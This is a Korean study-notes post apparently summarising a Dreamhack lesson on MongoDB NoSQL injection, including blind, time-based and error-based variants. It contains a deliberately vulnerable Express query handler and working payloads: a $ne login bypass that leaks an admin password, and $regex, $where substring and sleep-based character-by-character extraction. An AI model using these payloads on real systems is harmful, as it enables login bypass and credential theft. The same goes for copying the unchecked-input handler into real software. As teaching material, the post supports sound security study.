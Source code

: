 ```yaml
---
layout : single
title : "[Dreamhack] STAGE6. SQL Injection (5) : NoSQL Injection"
categories: web-hacking
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - NoSQL Injection (2)

-  [x] NoSQL Injection
-  [x] Bline NoSQL Injection

## ServerSide : NoSQL Injection
SQL Injection과 공격 목적과 방법이 매우 유사하며, 이용자의 입력값이 쿼리에 포함되며 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다. MongoDB는 SQL에서 저장하는 자료형 외에도 오브젝트, 배열 타입을 사용할 수 있다.
<br><br>

MongoDB 자료형 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/type/) <br><br>

**express 데이터 처리 방식** <br><br>
이용자의 입력값과 타입을 출력하는데, req.query의 타입이 문자열로 지정되어 있지 않기 때문에 문자열 외의 타입이 입력될 수 있다.

```js
const express = require('express'); // express 기본 모듈 불러오기
const app = express(); // express 객체 생성
//get 프로토콜에 대한 응답
app.get('/', function(req,res) {
    console.log('data:', req.query.data);
    console.log('type:', typeof req.query.data);
    res.send('hello world');
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### NoSQL Injection
MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용할 수 있다. <br><br>

**MongoDB NoSQL Injection Example** <br>

```js
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

위 코드는 user 콜렉션에서 이용자가 입력한 uid와 upw에 해당하는 데이터를 찾고, 출력하는 예제 코드로, 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력할 수 있다. 오브젝트 타입의 값을 입력할 수 있다면, 연산자를 사용할 수 있으며, $ne 연산자는 입력한 데이터와 일치하지 않는 데이터를 반환한다. 따라서, 공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보를 알아낼 수 있다.<br><br>

**ne 연산자 : uid와 upw가 a가 아닌 데이터를 조회한 결과**

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

#### NoSQL Injection 실습 - admin의 계정의 비밀번호 획득하기
upw에 not equal 연산자를 사용하여 upw의 값에 상관 없이 uid가 admin인 데이터를 조회할 수 있다

```
{"uid": "admin", "upw":{"$ne":""}}
```

### Blind NoSQL Injection

MongoDB 연산자 공식 문서 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/)


|Name|Description|
|:---|:---|
|$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
|$text|지정된 텍스트를 검색합니다.|
|$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|

#### $regex
regex 연산자를 활용한 upw에서 각 문자로 시작하는 데이터 조회하기

```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

#### $where
인자로 전달한 JS 표현식을 만족하는 데이터를 조회한다.

```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

# 필드에서는 사용할 수 없다
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

###### substring

해당 연산자로 JS 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있다. 

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

###### Sleep 함수를 통한 Time based Injection

표현식과 함께 sleep 함수를 사용하면, 지연 시간을 통해 참/거짓 결과를 확인할 수 있다. 아래 쿼리는 upw의 첫 글자를 비교하고, 해당 표현식이 참일 때 sleep 함수를 실행한다 

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

###### Error based Injection

에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킨다. 

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```